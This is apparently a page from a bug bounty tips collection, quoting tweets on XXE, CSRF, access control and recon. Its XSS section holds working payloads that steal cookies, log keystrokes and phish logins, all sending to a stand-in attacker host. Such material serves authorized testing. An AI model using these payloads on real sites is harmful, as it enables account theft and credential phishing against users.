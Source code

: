 # 🔄 Technical Process

A curated list of technical/process tips that will level up your bounty game. For more, head [back to the main page](./README.md).

## Common XXE Weakpoints

Source: https://twitter.com/Bugcrowd/status/1342184648856616972

```
XXE's are still quite common, and they're usually a P1! 
Here are places that you can look for them:

1. Uploading Open XML documents such as MS Offics docs (docx, xlsx, pptx). They're all just zip files filled with XML files. If these documents get parsed on the server-side, there's a chance that they will also parse external entities within those files.

2. Functionality that parses RSS feeds (they're XML too!)

3. Functionality that parses HTML (for example, converting HTML to PDF)

4.  Functionality that parses sitemap.xml files.

5. SAML requests.

6. Content-Type with application/json can also be replaced with application/xml. Many parsers support that.

7. SVG files (if they get parsed in some way on the server)
```

## Escalating XSS

Source: https://twitter.com/Bugcrowd/status/1339417608169222145

```
Here are a few ways to make the most of an XSS.

1. Grab the victim's cookies by redirecting to an attacker's server and appending the cookie value, e.g. document.location='bugcrowd.com/?'+document.cookie

2. Perform a sensitive action as the victim user (such as changing their password or email address). Having an XSS allows you to bypass SOP and Anti-CSRF mechanisms. See here for some payloads + inspiration: https://github.com/hakluke/weaponised-XSS-payloads

3. Plant a JavaScript keylogger (from https://github.com/swisskyrepo/PayloadsAllTheThings)
<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>

4. Redress the window with a fake HTML login form to phish credentials: document.body.innerHTML = "<form action='https://bugcrowd.com'><input type='text' value='email' name='email'><input type='password' value='password' name='password'><input type='submit'></form>"
```

## Find Leaky Password Reset Tokens

Source: https://twitter.com/hakluke/status/1300392121065594881

```
Try this when testing webapps:

1. Set up burp in browser1
2. Do a password reset request in browser1
3. Open the password reset email in browser2 and copy the token
4. Search your Burp history for the token, if it is there, you've got yourself a nice easy account takeover!
```

## Quick Way to Generate a Custom Wordlist

Source: https://twitter.com/hakluke/status/1301487471704776705

```
Easily generate a custom wordlist from any domain:

echo "http://bugcrowd.com" | subfinder -silent | hakrawler -plain -usewayback -scope yolo | sed $'s/[:./?=:]/\\\n/g' | anew
```

## Logic Bugs

Source: https://twitter.com/hakluke/status/1308365970780561408

```
Here's a solid bug bounty tip. If you are going to focus on one vulnerability class, make it logic bugs. Most of the P1 bugs I see pop up are logic errors that developers have made. They often have high impact and they can't be discovered through automation.

To find them you need to start by fully understanding the purpose of the application that you are attacking. Try to think about what the developer would have been thinking when they implemented each feature, then switch back to your hacker brain, where might they have made a mistake?
```

## Long-Term Collaborator

Source: https://twitter.com/stokfredrik/status/1314940154478501888

```
Hacky af long term burp collaborator with slack notifications. 
1. Run collaborator and tee output into a file
2. Bash loop the file for changes.
3. Negative grep out stuff you don’t want like ns|www|mail and Smash that slack webhook with the data.
Yaaay long term monitoring...
```

## Recon via Google Analytics Codes

Source: https://twitter.com/hakluke/status/1330470167881469952

```
You can use this website to discover targets that use a particular Google Analytics code. This is a great way of discovering assets owned by a company.

1. Enter the domain or GA code into the website
2. Get results!

https://dnslytics.com/reverse-analytics
```

## Finding Access Control Bugs

Source: https://twitter.com/hakluke/status/1339209648813981696

```
I've been finding a lot of access control bugs lately! Here's how.

Firstly I have two users, one with high privileges (admin), and one with low privileges (joe). I log in as the admin first, and use all the functionality. Whenever I do something that should be reserved for an administrator, I send the request over to Repeater. Once I have a stack of them, I get the cookies from the "joe" account and insert them into those requests. I send them and analyse the difference in response to see if it worked. If it did, I report it!

Then, I do the same thing but without any cookies or session tokens to see if it works unauthenticated.

You would be amazed at how many applications appear totally secure, and then there's just one or two endpoints that are vulnerable. This is because many web frameworks kind of suck at implementing roles and permissions. Web frameworks have been very successful at lessening the amount of injection vulnerabilities we see, but permissions still need to be defined by a human, so they're more prone to errors.

By the way - if you want to make this whole process 100x faster, check out the "Autorize" burp plugin. @Regala_ and @stokfredrik did a great video about it here: https://www.youtube.com/watch?v=3K1-a7dnA60&ab_channel=ST%C3%96K
```

## Private Keys -> Private Repositories

Source: https://twitter.com/hakluke/status/1350021538142015490

```
If you ever find a SSH private key in a bounty program's assets, try using it to access the target's private Github repositories.

More details: https://docs.github.com/en/github/authenticating-to-github/connecting-to-github-with-ssh
```

## CSRF Techniques

Source: https://twitter.com/hakluke/status/1350710129671344128

```
CSRF comes in many forms. Try:

- Removing the token parameter entirely
- Setting the token to a blank string
- Changing the token to an invalid token of the same format
- Using a different user's token
- Put the parameters in the URL instead of POST body (and remove the token) and change the HTTP verb to GET
- Testing every sensitive endpoint
- Check whether the token might be guessed / cracked
- Check whether new tokens are generated for every session, if not they may be a hash of something simple like the user's email address. If so you can craft your own valid tokens.
- Try building the payload with multiple methods including a standard HTML form, multipart form, and XHR (Burp can help)

Being thorough is the key - many devs are still implementing CSRF protections on a per-endpoint basis. When they do that, they're bound to forget somewhere!
```

## Wordpress Plugins

Source: https://twitter.com/Bugcrowd/status/1347015120287916032

```
Found a Wordpress site? The easiest place to find bugs is in the plugins.

1. Find the installed plugins with WPScan
2. Set up your own WP instance and install the same plugins
3. Hack your own instance
4. Report your bugs!

The most common bug you'll find with this method is XSS
```

## Finding the Correct Region for an S3 Bucket

Sournce: https://twitter.com/hakluke/status/1350553428242493440

```
If you find a S3 subdomain takeover, you need to set up the S3 bucket in the correct region, otherwise it doesn't work.

To find the region, use `dig` to get the IP address, then put the IP into https://isitonaws.com to grab the region easily.
```